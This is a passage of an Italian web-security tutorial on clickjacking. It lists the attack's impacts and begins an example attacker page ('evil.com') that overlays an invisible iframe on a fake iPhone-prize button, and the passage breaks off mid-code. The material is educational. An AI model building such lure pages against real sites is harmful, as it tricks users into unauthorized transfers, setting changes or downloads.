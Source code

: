 # 19. Clickjacking

## 19.1 Introduzione

**Clickjacking** (UI redressing) inganna l'utente facendogli **cliccare su elementi nascosti** tramite iframe invisibili sovrapposti.

**Impatto:**
- 🔴 Azioni non autorizzate (trasferimenti, acquisti)
- 🔴 Modifica impostazioni account
- 🔴 Attivazione webcam/microfono
- 🔴 Download malware
- 🔴 Social engineering attacks

## 19.2 Attacco Clickjacking

### 19.2.1 - Basic Attack

**Sito attaccante (evil.com):**

```html
<!DOCTYPE html>
<html>
<head>
    <title>Vinci un iPhone!</title>
    <style>
        #decoy {
            position: absolute;
            top: 0;
            left: 0;
            z-index: 1;
        }
        
        #target-iframe {
            position: absolute;
            top: 0;
            left: 0;
            opacity: 0;  /* Invisibile */
            z-index: 2;  /* Sopra il decoy */
            width: 500px;
            height: 500px;
        }
        
        #fake-button {
            position: absolute;
            top: 200px;
            left: 200px;
            width: 150px;
            height: 50px;
            background: red;
            color: white;
            font-size: 20px;
            border: none;
            cursor: pointer;
            z-index: 1;
        }
    </style>
</head>
<body>
    <h1>🎁 CONGRATULAZIONI! HAI VINTO UN iPHONE! 🎁</h1>
    <p>Clicca il pulsante per richiedere il premio!</p>
    
```